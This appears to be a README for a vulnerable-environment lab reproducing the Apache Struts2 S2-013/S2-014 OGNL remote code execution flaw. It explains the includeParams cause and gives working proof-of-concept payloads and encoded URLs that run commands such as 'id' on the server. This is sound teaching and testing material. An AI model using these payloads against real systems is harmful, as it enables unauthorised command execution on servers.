

# S2-013/S2-014 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: 2.0.0 - 2.3.14.1

Details:

 - http://struts.apache.org/docs/s2-013.html
 - http://struts.apache.org/docs/s2-014.html

## Setup

```
docker-compose build
docker-compose up -d
```

## Reference

The Struts2's tag, `<s:a>` and `<s:url>`, provide an includeParams attribute.The main scope of that attribute is to understand whether includes http request parameter or not.

The allowed values of includeParams are:

1. none - include no parameters in the URL (default)
2. get - include only GET parameters in the URL
3. all - include both GET and POST parameters in the URL

When `includeParams=all`, the GET and POST parameters of this request are placed on the GET parameter of the URL. During this process, the parameters will be parsed by OGNL expressions. It cause the command execution.

Remote Code Execution POC：

```
${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('id').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#out=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#out.println(#d),#out.close())}

// 或

${#_memberAccess["allowStaticMethodAccess"]=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())}
```

Example:`http://your-ip:8080/link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec('id').getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println('dbapp%3D'%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D`



S2-014 is a correction to S2-013. Because when S2-013 is fixed, the execution method of OGNL expression such as ${ognl_exp} is ignored, and S2-014 is an enhanced patch for it.

```
http://localhost:8080/S2-013/link.action?xxxx=%24%7B%28%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%29%28%23_memberAccess%5B%27allowStaticMethodAccess%27%5D%3Dtrue%29%28@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29%29%7D
```
